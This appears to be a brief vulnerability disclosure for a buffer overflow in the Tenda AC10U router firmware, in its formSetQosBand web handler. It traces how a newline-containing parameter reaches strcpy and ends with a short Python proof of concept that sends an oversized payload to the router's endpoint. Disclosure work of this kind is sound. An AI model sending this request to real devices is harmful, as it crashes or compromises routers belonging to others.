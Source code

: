 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/formSetQosBand

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](9.png)

get value from list ,send to setQosMiblist

![](10.png)

p eaqul list, if list contains '\n', get into if ,finally call strcpy, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/formSetQosBand"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'setQosMiblist': payload})
``` 
